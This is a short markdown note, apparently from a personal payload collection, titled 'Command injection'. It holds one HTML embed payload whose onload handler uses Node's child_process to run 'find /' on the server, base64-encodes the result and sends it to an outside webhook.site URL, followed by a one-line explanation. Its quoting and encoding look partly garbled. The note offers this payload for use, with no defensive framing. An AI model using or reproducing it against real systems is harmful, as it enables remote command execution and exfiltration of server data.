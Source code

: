 ```yaml
---
title: Command injection
tags:
  - payload
  - infosec
  - injections
---
```


1. With **webhook**
```html
<embed src=1 onload="fetch(./?eval=require( 'child_process' ).spawnSync( 'find', ['/']).stdout.toString()).then(a=>a.text()).then(a=>fetch('https://webhook.site/ae0bd822-b34b-4e87-aa65-3c22bc4c9999?c=%27+btoa(a)))%22%3E
```
*Command will exec a find command in location `/` after that send all that to plain text to webhook in URL `https://webhook.site/...`*

